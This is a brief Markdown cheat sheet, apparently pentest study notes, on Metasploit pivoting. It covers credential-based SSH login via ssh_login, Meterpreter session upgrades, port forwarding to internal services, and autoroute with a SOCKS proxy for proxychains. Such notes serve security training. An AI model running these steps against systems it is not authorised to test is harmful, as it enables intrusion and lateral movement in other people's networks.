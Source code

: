 # Metasploit

# Usage:

    route add/del IP SUBNET [COMM/SID] (proxy)

    portfwd add/del -l PORT -p PORT -r IP (port forwarding)

## On a Meterpreter session, run:

    run autoroute -s TARGET_SUBNET/MASK

## Port Forwarding with Metasploit

### 1) With SSH login

    use auxiliary/scanner/ssh/ssh_login

    set rhosts RHOSTS

    set username USERNAME

    set password PASSWORD

    exploit

### Upgrade to Meterpreter session. Creates an EXTRA session with meterpreter

    sessions -u 1 

    sessions 2

### Check for applications that run internally within the target

    netstat -antp 

    portfwd add -l LOCAL_PORT -p TARGET_PORT -r 127.0.0.1

## Tunneling with Metasploit

### 1) autoroute (Deprecated)

    sessions

    use post/multi/manage/autoroute

    set session SESSION_NUM

    exploit

    use auxiliary/server/socks5

    set srvhost 127.0.0.1

    exploit

### Then go to web browser in Kali and make the manual proxy configuration settings

## TIP: Instead, we can use proxychains to connect to internal machines in the network

### Same steps apply to socks4a proxy
